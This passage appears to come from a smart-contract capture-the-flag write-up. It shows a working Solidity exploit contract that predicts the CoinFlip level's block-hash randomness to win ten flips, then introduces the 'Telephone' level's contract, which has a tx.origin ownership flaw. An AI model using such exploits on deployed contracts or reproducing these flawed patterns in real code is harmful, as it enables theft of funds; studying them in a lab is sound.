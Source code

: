 > #### Solution:
> We will calculate the `side` with our exploit contract and call the `flip(bool _guess)` function of the contract to win the game. We have to do this 10 times in order to complete this level.
> 
> - We will initialize our exploit contract with the instance of our contract.
> - Then we will call the `calculateFlip()` function 10 times to win the game.
> 
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface game {
>   function flip(bool _guess) external returns (bool);
> }
> 
> contract exp {
>   uint256 lastHash;
>   uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
>   game cF;
> 
>   constructor(address instance){
>     cF = game(instance);
>   }
> 
>   function calculateFlip() public {
>     uint256 blockValue = uint256(blockhash(block.number -  1 ));
>     require(lastHash != blockValue);
> 
>     lastHash = blockValue;
>     uint256 flip = blockValue / FACTOR;
>     bool guess = flip == 1 ? true : false;
> 
>     require(cF.flip(guess));
>   }
> }
> ```

<hr>

## 4 Telephone
We have to claim the ownership of this contract to finish this level.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
